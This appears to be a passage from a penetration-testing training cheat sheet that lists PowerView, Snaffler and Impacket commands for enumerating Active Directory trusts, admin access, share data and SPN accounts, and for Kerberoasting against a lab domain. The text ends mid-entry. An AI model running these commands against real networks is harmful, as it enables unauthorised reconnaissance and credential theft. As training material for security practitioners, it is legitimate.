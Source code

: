 `Find-LocalAdminAccess`

    PowerView script used to find machines on the local domain where the current user has local administrator access Performed from a Windows-based host.

`Get-DomainTrust`

    PowerView script that returns domain trusts for the current domain or a specified domain. Performed from a Windows-based host.

`Get-ForestTrust`

    PowerView script that returns all forest trusts for the current forest or a specified forest. Performed from a Windows-based host.

`Get-DomainForeignUser`

    PowerView script that enumerates users who are in groups outside of the user's domain. Performed from a Windows-based host.

`Get-DomainForeignGroupMember`

    PowerView script that enumerates groups with users outside of the group's domain and returns each foreign member. Performed from a Windows-based host.

`Get-DomainTrustMapping`

    PowerView script that enumerates all trusts for current domain and any others seen. Performed from a Windows-based host.

`Get-DomainGroupMember -Identity "Domain Admins" -Recurse`

    PowerView script used to list all the members of a target group (`"Domain Admins"`) through the use of the recurse option (`-Recurse`). Performed from a Windows-based host.

`Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName`

    PowerView script used to find users on the target Windows domain that have the `Service Principal Name` set. Performed from a Windows-based host.

`.\Snaffler.exe -d INLANEFREIGHT.LOCAL -s -v data`

    Runs a tool called `Snaffler` against a target Windows domain that finds various kinds of data in shares that the compromised account has access to. Performed from a Windows-based host.

Kerberoasting

`sudo python3 -m pip install .`

    Used to install Impacket from inside the directory that gets cloned to the attack host. Performed from a Linux-based host.

`GetUserSPNs.py -h`

    Impacket tool used to display the options and functionality of `GetUserSPNs.py` from a Linux-based host.

`GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday`

    Impacket tool used to get a list of `SPNs` on the target Windows domain from a Linux-based host.

`GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request`
